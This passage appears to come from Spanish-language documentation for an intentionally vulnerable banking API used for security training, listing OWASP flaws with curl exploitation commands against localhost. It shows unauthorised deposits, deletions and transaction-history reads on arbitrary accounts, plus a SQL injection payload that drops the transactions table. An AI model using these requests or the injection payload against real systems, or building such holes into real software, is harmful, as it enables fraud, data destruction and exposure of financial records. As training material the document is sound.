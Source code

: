 ```bash
    "description": "Unauthorized transfer"
  }'
```

#### **Vulnerabilidad: Depósitos en Cualquier Cuenta**
- **Endpoint:** `POST /api/accounts/{accountId}/deposit`
- **Descripción:** Permite depositar dinero en cualquier cuenta
- **Explotación:**
```bash
curl -X POST http://localhost:8080/api/accounts/101/deposit \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -d '{
    "amount": 1000.00
  }'
```

#### **Vulnerabilidad: Eliminación de Cualquier Cuenta**

- **Endpoint:** `DELETE /api/accounts/{accountId}`
- **Descripción:** Permite eliminar cualquier cuenta sin verificar propiedad
- **Explotación:**
```bash
curl -X DELETE http://localhost:8080/api/accounts/101 \
  -H "Authorization: Bearer YOUR_TOKEN"
```

#### **Vulnerabilidad: Acceso al Historial de Transacciones**

- **Endpoint:** `GET /api/accounts/{accountId}/transactions`
- **Descripción:** Permite ver el historial de transacciones de cualquier cuenta
- **Explotación:**
```bash
curl -X GET http://localhost:8080/api/accounts/101/transactions \
  -H "Authorization: Bearer YOUR_TOKEN"
```

### 2. **A03:2021 - Injection (SQL Injection)**

#### **Vulnerabilidad: Búsqueda de Transacciones**

- **Endpoint:** `GET /api/transactions/search?description={query}`
- **Descripción:** Búsqueda vulnerable a SQL injection
- **Explotación:**
```bash
curl -X GET "http://localhost:8080/api/transactions/search?description='; DROP TABLE transactions; --" \
  -H "Authorization: Bearer YOUR_TOKEN"
```

### 3. **A07:2021 - Identification and Authentication Failures**
